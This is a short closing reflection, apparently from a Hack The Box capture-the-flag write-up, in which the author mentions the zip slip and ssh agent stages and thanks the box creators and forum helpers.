So that was quite the rollercoaster of emotions with a little bit of everything in some of these steps like the zip slip and ssh agent phases being really interesting and new for me. I would not have figured some of this out without nudges and hints from the htb forums and discord thanks to everyone who hangs out there. Super fun as always with MinatoTW and egre55 boxes in my opinion always seem to be well thought out and really hard, thanks for making all of them. 


